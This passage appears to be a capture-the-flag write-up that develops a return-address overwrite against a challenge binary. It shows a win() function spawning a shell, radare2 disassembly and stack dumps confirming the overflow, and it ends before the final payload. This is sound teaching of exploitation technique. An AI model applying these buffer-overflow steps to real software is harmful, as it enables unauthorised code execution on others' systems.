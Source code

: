 ## Exploring Further

Upon checking other functions, we can see a `win()` function:
```c
void win(void)
{
  system("/bin/sh");
  return;
}
```
This spawns a shell and seems like our pathway ahead. Let's see if we can find a way to reach this function.

# Exploit

## Theory
Since we can overwrite the array in `main()` we could try to manipulate the return address in `main()`'s stack frame and jump to this `win()` function. We can verify this before developing our exploit by checking `main()`'s assembly code:

```as
┌ 166: int main (int argc, char **argv, char **envp);
│ afv: vars(1:sp[0x28..0x28])
│           0x004011d0      f30f1efa       endbr64
│           0x004011d4      55             push rbp
│           0x004011d5      4889e5         mov rbp, rsp
│           0x004011d8      4883ec20       sub rsp, 0x20
│           ...             ...            ...
```
So the `main()` function is allocating 32 bytes onto the stack, and the next 8 bytes are for previous base pointer and the next 8 after would be the return address, which as a matter of fact coincides with the 48 bytes we are able to overwrite through `local_28` array.

## Exploit Development

### Preliminary Test

This time lets work with radare2. So we load the binary, find the location of the `win()` function, set the breakpoint right after our input in `main()`.
```as
[0x0040125b]> pxq 80 @ rbp-32
0x7ffdae61f1f0  0x0000000000000000  0x00007f96e17a7900   .........yz.....
0x7ffdae61f200  0x0000000000000000  0x00007ffdae61f2a0   ..........a.....
0x7ffdae61f210  0x0000000000000001  0x00007f96e159dca8   ..........Y.....
0x7ffdae61f220  0x00007ffdae61f310  0x00000000004011d0   ..a.......@.....
0x7ffdae61f230  0x0000000100400040  0x00007ffdae61f328   @.@.....(.a.....
[0x0040125b]> dc
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
INFO: hit breakpoint at: 0x401260
[0x0040125b]> pxq 80 @ rbp-32
0x7ffdae61f1f0  0x4141414141414141  0x4141414141414141   AAAAAAAAAAAAAAAA
0x7ffdae61f200  0x4141414141414141  0x4141414141414141   AAAAAAAAAAAAAAAA
0x7ffdae61f210  0x000000000000000a  0x00007f96e159dca8   ..........Y.....
0x7ffdae61f220  0x00007ffdae61f310  0x00000000004011d0   ..a.......@.....
0x7ffdae61f230  0x0000000100400040  0x00007ffdae61f328   @.@.....(.a.....
```
This confirms we can overfill the array and overflow into the stack frame (the last `0x0a` replaced the value at rbp). So let's try replacing the return address now. We can create the binary payload to be directly entered in radare2 for this.
